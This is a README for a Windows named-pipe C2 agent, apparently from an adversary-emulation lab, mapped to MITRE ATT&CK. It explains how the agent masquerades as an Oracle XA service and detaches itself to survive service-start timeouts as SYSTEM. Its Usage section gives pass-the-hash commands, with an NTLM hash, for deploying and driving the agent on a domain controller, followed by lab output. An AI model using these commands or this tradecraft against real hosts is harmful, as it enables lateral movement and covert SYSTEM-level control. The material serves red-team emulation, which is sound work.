

# smbpipe-agent-svc

**MITRE ATT&CK:** T1569.002 — System Services: Service Execution · T1047 — Windows Management Instrumentation · T1036.005 — Masquerading: Match Legitimate Resource Name or Location

**Purpose:** Service-capable variant of `../smbpipe-agent/` — the same named-pipe C2 agent, but able to be launched through the Windows Service Control Manager (`go-thehash exec`, MS-SCMR) and survive SCM's start-timeout termination.

## Overview

The pipe C2 is identical to `smbpipe-agent`: a byte-mode duplex named pipe (masquerading as an Oracle XA transaction service endpoint), a per-connection X25519 ECDH + HKDF handshake, AES-256-GCM sealed command/output frames, and command execution via `cmd.exe /c`. The client is `go-thehash pipe`; the pinned ECDH keys and the HKDF info string are shared with `smbpipe-agent`, so either binary interoperates with the same operator-side client. The pipe name differs — `\\.\pipe\oraclexa_svc` instead of `\\.\pipe\oraclexa` — so the two agents can run on the same host at once without a `FIRST_PIPE_INSTANCE` collision; `go-thehash pipe` takes the name as an argument, so the client is not rebuilt.

The one addition is **service detachment**:

`go-thehash exec` creates a transient Windows service whose `ImagePath` is the payload, then calls `StartService`. SCM starts that process and waits up to ~30 s for it to call `StartServiceCtrlDispatcher` / `SetServiceStatus`. A plain console payload never does, so SCM returns `ERROR_SERVICE_REQUEST_TIMEOUT` (1053) and **terminates the service process** — killing the agent with it (observed in the lab with `smbpipe-agent.exe`: the process spawns, then disappears).

`smbpipe-agent-svc` closes that gap: at startup it calls `svc.IsWindowsService()` (parent process is `services.exe`, session 0). If true, it re-spawns itself with `DETACHED_PROCESS | CREATE_NEW_PROCESS_GROUP` and exits. SCM's termination reaches only the original process; the detached agent survives, orphaned, in the service's security context (`LocalSystem` by default) and serves the pipe.

Launched from a console or WMI (`go-thehash exec-wmi`), `svc.IsWindowsService()` is false and the agent behaves exactly like `smbpipe-agent`.

## Deployment & lifecycle



- **Service path:** `go-thehash exec … "C:\Windows\Temp\smbpipe-agent-svc.exe"` — SCM service create/start (T1569.002); the agent ends up running as `LocalSystem`.
- **Console path:** `go-thehash exec-wmi … "C:\Windows\Temp\smbpipe-agent-svc.exe"` — runs as the authenticated caller; identical to `smbpipe-agent`.
- **Why not a real service handler:** `StartServiceCtrlDispatcher` / `svc.Run(name, …)` requires the service name to match the `CreateService` name exactly, but `go-thehash exec` randomizes it and the `OracleXAService` persistence key uses a different one. Detaching needs no name and works for both.
- **Termination is external** (`taskkill`, reboot) — no signal handling, as in `smbpipe-agent`.

## Keeping in sync with `smbpipe-agent`

This payload is a **copy** of `../smbpipe-agent/` (`main.go` + `internal/pipeio` + `internal/securechan`) plus the detachment block. The protocol layer and the pinned static X25519 keys are duplicated, so:

- Any change to the wire protocol or the pinned keys must be applied to **both** `smbpipe-agent` and `smbpipe-agent-svc` (and to `go-thehash/internal/pipechan/`) in the same change.
- The `internal/` packages are byte-identical copies apart from the module path (`smbpipe-agent-svc/internal/...`); keep them that way when re-syncing.

## Target context

- **Host / OS / arch:** any Windows x64 host reachable over SMB from the operator side (DC01 in Phase 4)
- **Privilege required:** service path → `LocalSystem` (SCM); console path → caller context. Either way the pipe DACL (`BA`/`SY` only) requires an admin/SYSTEM-level client to connect.

## Usage

Service path (covers T1569.002; agent survives as SYSTEM):

```
xprun-out C:\ProgramData\go-thehash.exe exec DC01 TESTLAB Administrator 41c46bf74ec071f65c7b97df4b7d672a "C:\Windows\Temp\smbpipe-agent-svc.exe"
```

- ***Expected Output***
  ```text
  [+] Authenticated as TESTLAB\Administrator
  [*] Service 'ahtixpbaqvmz' created, starting...
  [!] Service start timed out (expected - command was dispatched)
  [+] Service 'ahtixpbaqvmz' deleted
  ```

Console path (WMI):

```
xprun-out C:\ProgramData\go-thehash.exe exec-wmi DC01 TESTLAB Administrator 41c46bf74ec071f65c7b97df4b7d672a "C:\Windows\Temp\smbpipe-agent-svc.exe"
```

Verify the channel over the pipe (either path):

```
xprun-out C:\ProgramData\go-thehash.exe pipe DC01 TESTLAB Administrator 41c46bf74ec071f65c7b97df4b7d672a oraclexa_svc "whoami"
```

## Verification status

Dev-env (Windows, non-admin) console path verified — the agent starts and creates the pipe:

```text
[+] Listening on \\.\pipe\oraclexa_svc
```

Both agents were confirmed listening concurrently on the dev host: `smbpipe-agent.exe` on `\\.\pipe\oraclexa` and `smbpipe-agent-svc.exe` on `\\.\pipe\oraclexa_svc`.

Lab-verified end-to-end on DC01 (Windows Server 2022) via go-thehash from IIS01 — service path (MS-SCMR) then pipe C2:

```text
[*] Service 'kpqtmdweqdgi' created, starting...
[!] Service start timed out (expected - command was dispatched)
[+] Service 'kpqtmdweqdgi' deleted
...
[+] Authenticated as TESTLAB\Administrator
nt authority\system
```

The agent was uploaded to `C:\Windows\Temp\smbpipe-agent-svc.exe` (2,608,128 bytes) over the `ADMIN$` share, started by SCM, detached itself, and served the pipe as `NT AUTHORITY\SYSTEM` — confirming both the detach behavior (the agent outlives the SCM start timeout) and the `oraclexa_svc` channel.

## Files

| File | Description |
| ---- | ----------- |
| `main.go` | Source — pipe accept loop + connection lifecycle + service-detach block |
| `internal/pipeio/` | Overlapped Win32 I/O with deadlines; pipe creation + DACL (copy) |
| `internal/securechan/` | ECDH/HKDF key derivation, AEAD framing, handshake (copy) |
| `smbpipe-agent-svc.exe` | Compiled artifact (~2.5 MB static Windows x64 binary) |

## See also

- Build: `Build.md`
- Base payload (console-only): `../smbpipe-agent/` — full protocol and stealth rationale, `comparison-sliver.md`
- Operator-side client: `../go-thehash/` (`exec` / `exec-wmi` / `pipe` subcommands)
- Emulation step: `../../../../Emulation_Plan/Phase 4.md`
